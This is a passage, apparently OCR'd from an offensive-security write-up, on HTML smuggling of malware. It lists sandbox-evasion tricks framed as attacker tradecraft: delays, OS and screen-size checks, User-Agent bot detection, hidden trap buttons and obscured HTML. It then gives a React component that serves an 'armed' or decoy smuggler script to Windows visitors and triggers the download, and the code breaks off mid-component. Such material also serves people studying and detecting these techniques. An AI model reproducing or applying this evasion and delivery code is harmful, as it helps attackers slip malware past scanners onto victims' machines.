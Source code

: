 1. **Execute JavaScript** - most scanners still won't run JavaScript! Using React actually gives us this OPSEC measure out-of-the-box.
2. **Timeout** - wait a second before smuggling malware. The victim probably won't click any faster anyway. If the sandbox is waiting for the page to render, a second's wait is already likely to discourage it.
3. **OS detection** - if the OS doesn't match with our target, then smuggle a harmless decoy file. This will protect us from burning the operation.
4. **Screen size** - bots often set the incorrect screen size. Using this technique we are also able to detect mobile device users to whom we do not want to serve our malware.
5. **User Agent** - bots often have an unusual User Agent that does not match real browsers.
6. **Trap buttons** - add hidden trap buttons that only the bot clicks. This way we will recognize if a bot is walking around the site.
7. **Bad HTML practices** - using bad HTML practices can naturally obscure the meaning of our code. E.g. using a `div` element with an `onclick` action instead of the classic `button` element can cause the sandbox to not click it.

Example implementation of selected techniques:

```javascript
// File: Button.tsx
import React from "react"
import { useEffect, useState } from "react"
import { UAParser } from "ua-parser-js"
import { isBot } from "ua-parser-js/helpers"

const isArmed = () => {
    const parser = new UAParser()

    // Heuristics to download armed payload 
    if (isBot(parser.getUA())) return false
    if (parser.getOS().name?.toLowerCase() !== "windows") return false
    if (window.innerWidth < 500 || window.outerWidth < 500) return false

    return true
}

const DownloadButton = () => {
    const [isEnabled, setEnabled] = useState(true)

    useEffect(() => {
        // Start JS smuggling after a second
        const timeout = setTimeout(() => {
            // Decide if the smuggled file should be armed or unarmed (decoy)
            const version = isArmed() ? "armed" : "unarmed"

            // Download JS smuggler file from a server
            const script = document.createElement("script")
            script.src = `smuggler-${version}.js`
            document.body.appendChild(script)
        }, 1000)

        return () => clearTimeout(timeout)
    }, [])

    const onDownload = () => {
        if (!isEnabled) return

        // Call a function exported by the smuggler script
        // to start client-side download
        const downloadFile = new Function("downloadFile()")
        downloadFile()
    }

    return (
        <>
```